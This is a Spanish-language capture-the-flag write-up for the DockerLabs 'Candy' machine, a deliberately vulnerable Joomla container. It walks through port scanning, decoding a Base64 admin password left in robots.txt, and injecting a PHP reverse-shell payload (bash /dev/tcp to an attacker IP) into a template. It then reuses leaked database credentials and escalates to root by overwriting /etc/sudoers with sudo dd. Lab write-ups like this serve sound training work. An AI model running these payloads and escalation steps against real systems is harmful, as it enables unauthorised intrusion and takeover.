


# 🖥️ Writeup - Candy 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

> **Tags:** `Linux` `Web` `Joomla` `PHP` `Base64` `Information Leakage` `RCE` `Lateral Movement` `Sudoers`

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip candy.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh candy.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-31 18:17 CET
Nmap scan report for 172.17.0.2
Host is up (0.000037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_http-title: Home
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.13 seconds
```

Solo el puerto `80` está accesible. El escaneo también revela un archivo `robots.txt` y confirma que el sitio utiliza el `CMS Joomla!`.
En el interior del archivo `robots.txt` encontramos la siguiente información:

```
User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /un_caramelo
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/


admin:c2FubHVpczEyMzQ1
```

Encontramos credenciales para `admin` : `c2FubHVpczEyMzQ1`.

La contraseña está codificada en `Base64`, por lo que procedemos a decodificarla.

```bash
echo "c2FubHVpczEyMzQ1" | Base64 -d
```

Info:
```
sanluis12345
```

Obtenemos `sanluis12345`. Intuimos que `admin` : `sanluis12345` son las credenciales de `administrador` del `CMS`.

Navegamos a la ruta `/administrator` para autenticarnos con las credenciales encontradas.



Logramos acceder con éxito al panel de administración.

Nuestro objetivo ahora es obtener una `reverse shell`. En `Joomla!`, un vector común es modificar los archivos `PHP` de las templates. Para eso navegamos a la sección de plantillas dentro de `/templates/cassiopeia/`.

Concretamente, decidimos modificar el archivo `error.php`. Inyectamos nuestro `payload` de `PHP` al inicio del archivo. Este se activará cuando accedamos al `error.php` directamente desde el navegador.

Payload:
```
<?php
  system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>
```



Guardamos los cambios.

Ponemos un `listener` en nuestra máquina atacante, a la espera de la conexión.

```bash
sudo nc -nlvp 4444 
```

A continuación, accedemos por navegador al archivo `error.php`.

```
http://172.17.0.2/templates/cassiopeia/error.php
```

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 54510
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5bc7cbda960b:/var/www/html/joomla/templates/cassiopeia$
```

Recibimos la `reverse shell` en nuestro listener como usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`, pero no encontramos nada.
Leemos el archivo `/etc/passwd` y encontramos que existe un usuario llamado `luisillo`.

Buscamos entre los directorios y acabamos encontrando, en `/var/backups/hidden/`, un archivo llamado `otro_caramelo.txt`, con el siguiente contenido:

```
Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

Encontramos las credenciales de la base de datos para el usuario `luisillo`.

Vamos a reutilizarlas para intentar autenticarnos como el usuario `luisillo` en el sistema.

```bash
www-data@5bc7cbda960b:/var/backups/hidden$ su luisillo
Password: luisillosuperpassword
luisillo@5bc7cbda960b:/var/backups/hidden$
```

Hemos pivotado con éxito al usuario `luisillo`.

Comprobamos de nuevo permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for luisillo on 5bc7cbda960b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on 5bc7cbda960b:
    (ALL) NOPASSWD: /bin/dd
```

Observamos que podemos ejecutar el binario `dd` con privilegios de `root`. El binario `dd` puede escribir sobre archivos privilegiados, por lo que lo podemos usar para escalar privilegios.

Primero definimos como variable el archivo en el que queremos hacer cambios.

```bash
LFILE=/etc/sudoers
```

Inyectamos el comando.

```bash
echo "luisillo ALL=(ALL) NOPASSWD:ALL" | sudo /bin/dd of=$LFILE
```

Info:
```
0+1 records in
0+1 records out
32 bytes copied, 3.048e-05 s, 1.0 MB/s
```

Los cambios se han aplicado correctamente. 

Gracias a esta modificación, ahora el usuario `luisillo` puede autenticarse como `root` sin tener que proporcionar una contraseña.

```bash
sudo /bin/bash
```

Info:
```
root@5bc7cbda960b:/tmp# whoami
root
root@5bc7cbda960b:/tmp#
```

Ya somos root!